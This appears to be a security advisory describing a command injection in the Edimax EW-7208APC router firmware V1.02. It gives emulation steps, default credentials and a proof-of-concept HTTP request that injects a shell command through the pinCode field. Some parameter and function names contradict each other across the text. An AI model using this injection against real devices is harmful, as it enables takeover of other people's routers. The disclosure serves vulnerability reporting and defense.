




## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'pinCode'` parameter in the 'formWpsStar5G' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWpsStart5G' is below:


- ​**websGetVar** retrieves POST parameters 'stadrv_ssid'.
- **system()** use the param_1 for system without check, resulting a command injection in this place.

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWpsStart5G HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1

configOption=pin&pinCode=;echo pinCode>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
